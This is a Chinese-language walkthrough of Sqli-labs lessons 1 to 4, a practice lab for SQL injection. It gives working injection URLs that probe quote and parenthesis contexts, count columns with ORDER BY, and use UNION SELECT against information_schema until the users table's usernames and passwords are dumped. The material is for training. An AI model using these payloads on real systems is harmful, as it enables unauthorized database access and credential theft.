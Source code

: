 
# Sqli-labs-less1
![image.png](_img/assets/1654503299810-ad584fb6-2466-4a89-b2d1-3cb0d356cf67.png)
**查看是否存在注入**<br />http://www.web.com/sql/Less-1/?id=1<br />http://www.web.com/sql/Less-1/?id=1'<br />http://www.web.com/sql/Less-1/?id=1'--+<br />当我们使用?id=1'时报错，说明存在注入点
![image.png](_img/assets/1654503299766-63948164-2518-4337-aec3-735716cef5f9.png)

**使用order by 查看字段数量**<br />使用order by 3 没有报错 使用order by 4 发生报错，说明字段数为3<br />http://www.web.com/sql/Less-1/?id=1' order by 3--+
![image.png](_img/assets/1654503299782-fbd5ef31-f038-4ea7-a3e1-30f43842c923.png)

**查看哪些数据可以回显**<br />将?id=1改为?id=-1 或者其它不存在的值，使用union注入 且通过order by结果为3 可以得到union select 1,2,3<br />http://www.web.com/sql/Less-1/?id=-1' union select 1,2,3--+<br />我们看到数据2,3发生回显
![image.png](_img/assets/1654503299785-1c356b91-14eb-4f3e-818f-7ccba744d2c7.png)

**查看当前版本和数据库**<br />http://www.web.com/sql/Less-1/?id=-1' union select 1,version(),database()--+
![image.png](_img/assets/1654503299823-2efee71b-0e90-4227-b7fc-6764144a0db5.png)

**查看数据库**<br />http://www.web.com/sql/Less-1/?id=-1' union select 1,2,schema_name from information_schema.schemata--+<br />可使用 limit 来改变查询结果<br />http://www.web.com/sql/Less-1/?id=-1' union select 1,2,schema_name from information_schema.schemata limit 1,1--+
![image.png](_img/assets/1654503300569-cd95cdca-2e2d-46f6-baef-04696c1b426e.png)

使用limit也不太方便，这里补充一个函数group_concat()将查询的字段数合并一起输出<br />http://www.web.com/sql/Less-1/?id=-1' union select 1,2,group_concat(schema_name) from information_schema.schemata--+
![image.png](_img/assets/1654503300589-1430ea90-b3b2-4a85-87f7-cbd3a233eabb.png)
这里我们已经查询到security数据库

**继续查询security库里面的表**<br />http://www.web.com/sql/Less-1/?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+
![image.png](_img/assets/1654503300577-0b7ca330-d5f2-4e5c-8f91-0beb423426fc.png)
这里我们已经查询到users表

**继续查询users表里面的字段**<br />http://www.web.com/sql/Less-1/?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+
![image.png](_img/assets/1654503300859-43f3220e-9aa6-4ebe-a59b-0e39d4521bf6.png)
这里我们已经查询到username 和password字段

**继续查询username 和password**<br />http://www.web.com/sql/Less-1/?id=-1' union select 1,2,group_concat(username,password) from security.users--+
![image.png](_img/assets/1654503300842-4a0229d6-8771-407a-9ea8-5c4963fb803d.png)
在这里username和password是连接在一起的，我们引入一个函数concat_ws('a',b,c)，他会将b和c之间用a分割<br />http://www.web.com/sql/Less-1/?id=-1' union select 1,2,group_concat(concat_ws('-',username,password)) from security.users--+
![image.png](_img/assets/1654503302525-fad9df4c-4872-46d8-b2e3-cb4e06efff2d.png)
到此我们就已经拿到所有的用户账号和密码。


# Sqli-labs-less-2
![image.png](_img/assets/1654503397651-571a876b-6506-4723-94dd-9906bb0950ca.png)
**查看是否存在注入**<br />当我们使用?id=1'时报错，显示多了一个`'`因此得出这一关可直接使用?id=1 来进行注入攻击<br />http://www.web.com/sql/Less-2/?id=1<br />http://www.web.com/sql/Less-2/?id=1'
![image.png](_img/assets/1654503617991-63e058b5-0c81-452c-89dc-940abaac967d.png)

**使用order by 查看字段数量**<br />使用order by 3 没有报错 使用order by 4 发生报错，说明字段数为3<br />http://www.web.com/sql/Less-2/?id=1 order by 3--+
![image.png](_img/assets/1654503397504-fc7a7548-376a-4230-8393-2cb29bb3deb7.png)
以下步骤与Sqli-labs-Less-1 相同 不进行详细叙述。

注意：<br />在Sqli-labs-Less-1中是?id=1' <br />在Sqli-labs-Less-2中是?id=1


# Sqli-labs-less-3
![](https://img-blog.csdnimg.cn/20200723105441476.png#crop=0&crop=0&crop=1&crop=1&id=rmjED&originHeight=110&originWidth=1017&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**查看是否存在注入**<br />当我们使用?id=1时没有报错<br />http://www.web.com/sql/Less-3/?id=1<br />![](https://img-blog.csdnimg.cn/20200716111058622.png#crop=0&crop=0&crop=1&crop=1&id=vAl07&originHeight=183&originWidth=521&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
当我们使用?id=1’时报错，显示我们此处少了一个）<br />![](https://img-blog.csdnimg.cn/20200716111116912.png#crop=0&crop=0&crop=1&crop=1&id=Fvtew&originHeight=169&originWidth=1255&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
因此得出这一关可直接使用?id=1') 来进行注入攻击

**使用order by 查看字段数量**<br />使用order by 3 没有报错 使用order by 4 发生报错，说明字段数为3<br />http://www.web.com/sql/Less-3/?id=1') order by 3--+<br />![](https://img-blog.csdnimg.cn/20200716111248116.png#crop=0&crop=0&crop=1&crop=1&id=YAi1q&originHeight=176&originWidth=646&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看哪些数据可以回显**<br />将?id=1改为?id=-1 或者其它不存在的值，使用union注入 且通过order by结果为3 可以得到<br />union select 1,2.3<br />http://www.web.com/sql/Less-3/?id=-1') union select 1,2,3--+<br />我们看到数据2,3发生回显<br />![](https://img-blog.csdnimg.cn/20200716111402229.png#crop=0&crop=0&crop=1&crop=1&id=FoEKw&originHeight=186&originWidth=615&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

以下步骤与Sqli-labs-Less-1 相同 不进行详细叙述。<br />注意：<br />在Sqli-labs-Less-1中是?id=1’<br />在Sqli-labs-Less-3中是?id=1')


# Sqli-labs-Less-4
![](https://img-blog.csdnimg.cn/20200723105509991.png#crop=0&crop=0&crop=1&crop=1&id=ZSNGT&originHeight=105&originWidth=1005&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**查看是否存在注入**<br />当我们使用?id=1时没有报错<br />http://www.web.com/sql/Less-4/?id=1<br />![](https://img-blog.csdnimg.cn/20200716111646356.png#crop=0&crop=0&crop=1&crop=1&id=AUx3r&originHeight=172&originWidth=441&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
当我们使用?id=1’时也没有报错<br />![](https://img-blog.csdnimg.cn/20200716111724249.png#crop=0&crop=0&crop=1&crop=1&id=PZa5H&originHeight=169&originWidth=440&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
当我们使用?id=1’)时也没有报错<br />![](https://img-blog.csdnimg.cn/20200716111756441.png#crop=0&crop=0&crop=1&crop=1&id=qhUDJ&originHeight=170&originWidth=428&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
当我们使用?id=1"时报错，并显示我们此处少了一个）<br />![](https://img-blog.csdnimg.cn/20200716111832585.png#crop=0&crop=0&crop=1&crop=1&id=cYmFM&originHeight=147&originWidth=1281&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
因此得出这一关可直接使用?id=1") 来进行注入攻击

**使用order by 查看字段数量**<br />使用order by 3 没有报错 使用order by 4 发生报错，说明字段数为3<br />http://www.web.com/sql/Less-4/?id=1") order by 3--+

**查看哪些数据可以回显**<br />将?id=1改为?id=-1 或者其它不存在的值，使用union注入 且通过order by结果为3 可以得到<br />union select 1,2,3<br />http://www.web.com/sql/Less-4/?id=-1") union select 1,2,3--+<br />我们看到数据2,3发生回显<br />![](https://img-blog.csdnimg.cn/20200716112039340.png#crop=0&crop=0&crop=1&crop=1&id=UmbyF&originHeight=159&originWidth=623&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

以下步骤与Sqli-labs-Less-1 相同不进行详细叙述。<br />注意：<br />在Sqli-labs-Less-1中是?id=1’<br />在Sqli-labs-Less-4中是?id=1")






